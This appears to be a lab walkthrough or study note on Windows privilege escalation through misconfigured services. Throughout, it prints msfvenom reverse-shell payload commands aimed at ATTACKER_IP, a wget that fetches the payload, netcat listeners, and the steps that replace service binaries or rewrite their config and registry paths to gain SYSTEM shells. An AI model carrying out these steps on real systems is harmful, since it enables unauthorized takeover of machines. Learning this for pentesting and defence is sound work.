





Abusing Service Misconfigurations
Abusing Service Misconfigurations
Windows Services
Windows services are managed by the Service Control Manager (SCM). The SCM is a process in charge of managing the state of services as needed, checking the current status of any given service and generally providing a way to configure services.
Each service on a Windows machine will have an associated executable which will be run by the SCM whenever a service is started. It is important to note that service executables implement special functions to be able to communicate with the SCM, and therefore not any executable can be started as a service successfully. Each service also specifies the user account under which the service will run.
To better understand the structure of a service, let's check the apphostsvc service configuration with the sc qc command:
Commands to List all Services (Can use findstr in pipe)
wmic service list brief
sc query state=all
Command Prompt
C:\> sc qc apphostsvc
[SC] QueryServiceConfig SUCCESS
SERVICE_NAME: apphostsvc
TYPE : 20 WIN32_SHARE_PROCESS
START_TYPE : 2 AUTO_START
ERROR_CONTROL : 1 NORMAL
BINARY_PATH_NAME : C:\Windows\system32\svchost.exe -k apphost
LOAD_ORDER_GROUP :
TAG : 0
DISPLAY_NAME : Application Host Helper Service
DEPENDENCIES :
SERVICE_START_NAME : localSystem
Here we can see that the associated executable is specified through the BINARY_PATH_NAME parameter, and the account used to run the service is shown on the SERVICE_START_NAME parameter.
Services have a Discretionary Access Control List (DACL), which indicates who has permission to start, stop, pause, query status, query configuration, or reconfigure the service, amongst other privileges. The DACL can be seen from Process Hacker (available on your machine's desktop):
Service DACL

All of the services configurations are stored on the registry under HKLM\SYSTEM\CurrentControlSet\Services\
Service registry entries

A subkey exists for every service in the system. Again, we can see the associated executable on the ImagePath value and the account used to start the service on the ObjectName value. If a DACL has been configured for the service, it will be stored in a subkey called Security. As you have guessed by now, only administrators can modify such registry entries by default.
A) Insecure Permissions on Service Executables:
If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially.
To understand how this works, let's look at a vulnerability found on Splinterware System Scheduler. To start, we will query the service configuration using sc:
Command Prompt
C:\> sc qc WindowsScheduler
[SC] QueryServiceConfig SUCCESS
SERVICE_NAME: windowsscheduler
TYPE : 10 WIN32_OWN_PROCESS
START_TYPE : 2 AUTO_START
ERROR_CONTROL : 0 IGNORE
BINARY_PATH_NAME : C:\PROGRA~2\SYSTEM~1\WService.exe
LOAD_ORDER_GROUP :
TAG : 0
DISPLAY_NAME : System Scheduler Service
DEPENDENCIES :
SERVICE_START_NAME : .\svcuser1
We can see that the service installed by the vulnerable software runs as svcuser1 and the executable associated with the service is in C:\Progra~2\System~1\WService.exe. We then proceed to check the permissions on the executable:
Command Prompt
C:\>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Administrators:(I)(F)
BUILTIN\Users:(I)(RX)
APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
Successfully processed 1 files; Failed processing 0 files
And here we have something interesting. The Everyone group has modify permissions (M) on the service's executable. This means we can simply overwrite it with any payload of our preference, and the service will execute it with the privileges of the configured user account.
Or
We can check by the following command (Seprate Room's Example)
C:\Users\user>C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
C:\Program Files\File Permissions Service\filepermservice.exe
Medium Mandatory Level (Default) [No-Write-Up]
RW Everyone
FILE_ALL_ACCESS
RW NT AUTHORITY\SYSTEM
FILE_ALL_ACCESS
RW BUILTIN\Administrators
FILE_ALL_ACCESS
RW WIN-QBA94KB3IOF\Administrator
FILE_ALL_ACCESS
RW BUILTIN\Users
FILE_ALL_ACCESS
Let's generate an exe-service payload using msfvenom and serve it through a python webserver:
Kali Linux
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f exe-service -o rev-svc.exe
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
We can then pull the payload from Powershell with the following command:
Powershell
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well:
Command Prompt
C:\> cd C:\PROGRA~2\SYSTEM~1\
C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
1 file(s) moved.
C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
1 file(s) moved.
C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
Successfully processed 1 files.
We start a reverse listener on our attacker machine:
Kali Linux
nc -lvp 7777
And finally, restart the service. While in a normal scenario, you would likely have to wait for a service restart, you have been assigned privileges to restart the service yourself to save you some time. Use the following commands from a cmd.exe command prompt:
Command Prompt
C:\> sc stop windowsscheduler
C:\> sc start windowsscheduler
Note: PowerShell has sc as an alias to Set-Content, therefore you need to use sc.exe in order to control services with PowerShell this way.
As a result, you'll get a reverse shell with svcusr1 privileges:
Kali Linux
nc -lvp 7777
Listening on 0.0.0.0 4445
Connection received on 10.10.175.90 50649
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
wprivesc1\svcusr1
B) Unquoted Service Paths:
When we can't directly write into service executables as before, there might still be a chance to force a service into running arbitrary executables by using a rather obscure feature.
When working with Windows services, a very particular behaviour occurs when the service is configured to point to an "unquoted" executable. By unquoted, we mean that the path of the associated executable isn't properly quoted to account for spaces on the command.
As an example, let's look at the difference between two services (these services are used as examples only and might not be available in your machine). The first service will use a proper quotation so that the SCM knows without a doubt that it has to execute the binary file pointed by "C:\Program Files\RealVNC\VNC Server\vncserver.exe", followed by the given parameters:
Command Prompt
C:\> sc qc "vncserver"
[SC] QueryServiceConfig SUCCESS
SERVICE_NAME: vncserver
TYPE : 10 WIN32_OWN_PROCESS
START_TYPE : 2 AUTO_START
ERROR_CONTROL : 0 IGNORE
BINARY_PATH_NAME : "C:\Program Files\RealVNC\VNC Server\vncserver.exe" -service
LOAD_ORDER_GROUP :
TAG : 0
DISPLAY_NAME : VNC Server
DEPENDENCIES :
SERVICE_START_NAME : LocalSystem
Now let's look at another service without proper quotation:
Command Prompt
C:\> sc qc "disk sorter enterprise"
[SC] QueryServiceConfig SUCCESS
SERVICE_NAME: disk sorter enterprise
TYPE : 10 WIN32_OWN_PROCESS
START_TYPE : 2 AUTO_START
ERROR_CONTROL : 0 IGNORE
BINARY_PATH_NAME : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
LOAD_ORDER_GROUP :
TAG : 0
DISPLAY_NAME : Disk Sorter Enterprise
DEPENDENCIES :
SERVICE_START_NAME : .\svcusr2
When the SCM tries to execute the associated binary, a problem arises. Since there are spaces on the name of the "Disk Sorter Enterprise" folder, the command becomes ambiguous, and the SCM doesn't know which of the following you are trying to execute:
Command Argument 1 Argument 2
C:\MyPrograms\Disk.exe Sorter Enterprise\bin\disksrs.exe
C:\MyPrograms\DiskSorter.exe Enterprise\bin\disksrs.exe -
C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe - -
This has to do with how the command prompt parses a command. Usually, when you send a command, spaces are used as argument separators unless they are part of a quoted string. This means the "right" interpretation of the unquoted command would be to execute C:\\MyPrograms\\Disk.exe and take the rest as arguments.
Instead of failing as it probably should, SCM tries to help the user and starts searching for each of the binaries in the order shown in the table:
First, search for C:\\MyPrograms\\Disk.exe. If it exists, the service will run this executable.
If the latter doesn't exist, it will then search for C:\\MyPrograms\\Disk Sorter.exe. If it exists, the service will run this executable.
If the latter doesn't exist, it will then search for C:\\MyPrograms\\Disk Sorter Enterprise\\bin\\disksrs.exe. This option is expected to succeed and will typically be run in a default installation.
From this behaviour, the problem becomes evident. If an attacker creates any of the executables that are searched for before the expected service executable, they can force the service to run an arbitrary executable.
While this sounds trivial, most of the service executables will be installed under C:\Program Files or C:\Program Files (x86) by default, which isn't writable by unprivileged users. This prevents any vulnerable service from being exploited. There are exceptions to this rule: - Some installers change the permissions on the installed folders, making the services vulnerable. - An administrator might decide to install the service binaries in a non-default path. If such a path is world-writable, the vulnerability can be exploited.
In our case, the Administrator installed the Disk Sorter binaries under c:\MyPrograms. By default, this inherits the permissions of the C:\ directory, which allows any user to create files and folders in it. We can check this using icacls:
Command Prompt
C:\>icacls c:\MyPrograms
c:\MyPrograms NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
BUILTIN\Administrators:(I)(OI)(CI)(F)
BUILTIN\Users:(I)(OI)(CI)(RX)
BUILTIN\Users:(I)(CI)(AD)
BUILTIN\Users:(I)(CI)(WD)
CREATOR OWNER:(I)(OI)(CI)(IO)(F)
Successfully processed 1 files; Failed processing 0 files
The BUILTIN\\Users group has AD and WD privileges, allowing the user to create subdirectories and files, respectively.
Or (Alternate Way to Check Permissions of the directory using Accesscheck)
Command Prompt
C:\PrivEsc>accesschk.exe -uvwdq "C:\Program Files\Unquoted Path Service\"
C:\Program Files\Unquoted Path Service
Medium Mandatory Level (Default) [No-Write-Up]
RW BUILTIN\Users
FILE_ALL_ACCESS
RW NT SERVICE\TrustedInstaller
FILE_ALL_ACCESS
RW NT AUTHORITY\SYSTEM
FILE_ALL_ACCESS
RW BUILTIN\Administrators
FILE_ALL_ACCESS
The process of creating an exe-service payload with msfvenom and transferring it to the target host is the same as before, so feel free to create the following payload and upload it to the server as before. We will also start a listener to receive the reverse shell when it gets executed:
Kali Linux
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f exe-service -o rev-svc2.exe
nc -lvp 7777
Once the payload is in the server, move it to any of the locations where hijacking might occur. In this case, we will be moving our payload to C:\MyPrograms\Disk.exe. We will also grant Everyone full permissions on the file to make sure it can be executed by the service:
Command Prompt
C:\> move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe
C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
Successfully processed 1 files.
Once the service gets restarted, your payload should execute:
Command Prompt
C:\> sc stop "disk sorter enterprise"
C:\> sc start "disk sorter enterprise"
As a result, you'll get a reverse shell with svcusr2 privileges:
Kali Linux
nc -lvp 7777
Listening on 0.0.0.0 7777
Connection received on 10.10.175.90 50650
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
wprivesc1\svcusr2
C.1) Insecure Service Permissions:
You might still have a slight chance of taking advantage of a service if the service's executable DACL is well configured, and the service's binary path is rightly quoted. Should the service DACL (not the service's executable DACL) allow you to modify the configuration of a service, you will be able to reconfigure the service. This will allow you to point to any executable you need and run it with any account you prefer, including SYSTEM itself.
To check for a service DACL from the command line, you can use Accesschk from the Sysinternals suite. For your convenience, a copy is available at C:\\tools. The command to check for the thmservice service DACL is:
Command Prompt
C:\tools\AccessChk> accesschk64.exe -qlcv thmservice
[0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
SERVICE_QUERY_STATUS
SERVICE_QUERY_CONFIG
SERVICE_INTERROGATE
SERVICE_ENUMERATE_DEPENDENTS
SERVICE_PAUSE_CONTINUE
SERVICE_START
SERVICE_STOP
SERVICE_USER_DEFINED_CONTROL
READ_CONTROL
[4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
SERVICE_ALL_ACCESS
Here we can see that the BUILTIN\\Users group has the SERVICE_ALL_ACCESS permission, which means any user can reconfigure the service.
Before changing the service, let's build another exe-service reverse shell and start a listener for it on the attacker's machine:
Kali Linux
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f exe-service -o rev-svc3.exe
nc -lvp 7777
We will then transfer the reverse shell executable to the target machine and store it in C:\Users\thm-unpriv\rev-svc3.exe. Feel free to use wget to transfer your executable and move it to the desired location. Remember to grant permissions to Everyone to execute your payload:
Command Prompt
C:\> icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
To change the service's associated executable and account, we can use the following command (Mind the spaces after the equal signs when using sc.exe):
Command Prompt
C:\> sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
Notice we can use any account to run the service. We chose LocalSystem as it is the highest privileged account available. To trigger our payload, all that rests is restarting the service:
Command Prompt
C:\> sc stop THMService
C:\> sc start THMService
And we will receive a shell back in our attacker's machine with SYSTEM privileges:
Kali Linux
nc -lvp 4447
Listening on 0.0.0.0 4447
Connection received on 10.10.175.90 50650
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
NT AUTHORITY\SYSTEM
C.2) Insecure Permissions on Service (Another Example):
We can use a program called accesschk to check the permissions allocated to a specific user for a specific service
C:\PrivEsc\accesschk.exe /accepteula -uwcqv Username ServiceName
Example
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc

Note that the "user" account has the permission to change the service config (SERVICE_CHANGE_CONFIG). Start/Stop the service SERVICE_START & SERVICE_STOP
Lets view the service details.
sc qc daclsvc

As we can see, the SERVICE_START_NAME is LocalSystem. (Highest Privileged Account)
Now, we will modify the BINARY_PATH_NAME to our reverse shell as we have SERVICE_CHANGE_CONFIG enabled for the user.
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""

Start a netcat listner & start the service using the following.
net start daclsvc
or
sc start daclsvc
Our Netcat now has NT Authority/Sytem access.
D) Weak Registry Permissions for the service
Query the "regsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME).
sc qc regsvc
Using accesschk.exe, note that the registry entry for the regsvc service is writable by the "NT AUTHORITY\INTERACTIVE" group (essentially all logged-on users):
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
Overwrite the ImagePath registry key to point to the reverse.exe executable you created:
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:
net start regsvc
or
sc start regsvc
END